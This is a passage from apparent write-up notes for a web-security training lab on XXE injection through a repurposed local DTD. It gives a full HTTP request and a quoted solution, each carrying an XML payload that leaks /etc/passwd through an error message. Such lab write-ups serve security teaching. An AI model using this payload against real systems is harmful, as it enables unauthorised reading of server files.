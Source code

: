                     </li>
                    <li>
                        When you view your comment, you should see the contents of the <code>/etc/hostname</code> file in your image. Use the "Submit solution" button to submit the value of the server hostname.
                    </li>
                </ol>
            </div>
        </div>




#### Exploiting XXE to retrieve data by repurposing a local DTD

> This lab has a "Check stock" feature that parses XML input but does not display the result.
>
> To solve the lab, trigger an error message containing the contents of the /etc/passwd file.
>
> You'll need to reference an existing DTD file on the server and redefine an entity from it. 

exploit

```http
POST /product/stock HTTP/1.1
Host: 0a2100480363dc2ec0058472001d00d0.web-security-academy.net
Content-Type: application/xml
Content-Length: 419

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]><stockCheck><productId>1</productId><storeId>2</storeId></stockCheck>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
                    </li>
                    <li>
                        <p>
                            Insert the following parameter entity definition in between the XML declaration and the <code>stockCheck</code> element:
                        </p>
                        <code class="code-scrollable">&lt;!DOCTYPE message [
&lt;!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"&gt;
&lt;!ENTITY % ISOamso '
&lt;!ENTITY &amp;#x25; file SYSTEM "file:///etc/passwd"&gt;
&lt;!ENTITY &amp;#x25; eval "&lt;!ENTITY &amp;#x26;#x25; error SYSTEM &amp;#x27;file:///nonexistent/&amp;#x25;file;&amp;#x27;&gt;"&gt;
&amp;#x25;eval;
&amp;#x25;error;
'&gt;
%local_dtd;
]&gt;</code>